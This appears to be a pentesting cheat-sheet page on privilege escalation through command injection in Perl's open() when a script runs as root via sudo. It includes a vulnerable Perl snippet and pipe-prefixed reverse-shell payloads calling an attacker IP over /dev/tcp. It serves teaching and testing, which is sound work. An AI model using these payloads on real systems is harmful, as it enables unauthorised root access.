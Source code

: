 # Perl

## Theory

Perl scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, perl scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice

### Open() Command Injection

{% tabs %}
{% tab title="Enumerate" %}
Assume the ruby script can be executed as root with sudo rights. If it use the `open()` method and we controll its input, then the script is vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /usr/bin/perl open.pl
```

Check if we have control over the input of the vulnerable function
```perl
my $file = <>;
open(FH, $file);
while (my $line = <FH>) {
  print($line);
}
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code.
here is an example of a malicious payloads passed to the `open()` function:

```bash
|bash -c 'bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1'
bash -c 'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1'|
|/tmp/payload.sh
```

{% hint style="info" %}
The `|` is a built in functionality used to execute the file when opening it. The file must be executable.
{% endhint}

{% endtab %}
{% endtabs %}